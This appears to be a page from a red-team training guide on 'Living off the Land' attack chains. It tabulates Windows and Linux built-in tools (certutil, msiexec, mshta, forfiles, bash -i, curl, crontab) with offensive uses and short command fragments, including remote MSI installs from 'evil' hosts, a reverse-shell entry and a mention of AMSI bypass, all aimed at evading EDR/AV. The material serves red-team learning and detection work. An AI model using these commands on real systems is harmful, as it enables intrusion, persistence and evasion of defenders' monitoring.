

repository: lupingQAQ/red-team-skill-tree · page: ch-23/index.html · generator: mkdocs

# 23. Living off the Land (LotL) Attack Chains

> Complete the attack using the target system's built-in tools, without dropping additional binaries, greatly evading EDR/AV detection.

## 23.1 Windows LotL Toolchain

| Tool | Purpose |
|------|------|
| PowerShell | Download execution / reconnaissance / credential operations (obsolete? replace with C# AMSI Bypass) |
| WMI | Remote command execution / reconnaissance / persistence |
| certutil | Remote download (`certutil -urlcache -split -f`) |
| mshta | Execute HTA/JavaScript |
| msiexec | Install remote MSI (`msiexec /q /i http://xxx/evil.msi`) |
| msbuild | Execute inline C# (`msbuild.exe xxx.csproj`) |
| csc.exe | Compile C# locally (no Visual Studio dependency) |
| rundll32 | Load DLL / execute JavaScript |
| forfiles | Proxy execution (`forfiles /p c:\ /m notepad.exe /c "cmd /c evil"`) |
| psexec | Remote execution (Sysinternals) |
| schtasks | Scheduled-task persistence |
| reg | Registry operations / persistence |
| wmic | Remote WMI command execution |
| bitsadmin | Background download |
| installutil | .NET application install → execute code |

## 23.2 Linux LotL Toolchain

| Tool | Purpose |
|------|------|
| curl/wget | Download payload |
| bash -i | Reverse shell |
| python/perl/ruby | One-line executors |
| awk | Command execution (`awk 'BEGIN{system("id")}'`) |
| find | Command execution (`find / -exec cmd \;`) |
| xxd/base64 | Encode/decode |
| ssh -R/-L | Tunneling / port forwarding |
| crontab | Persistence |
| systemctl | Service creation / persistence |

---
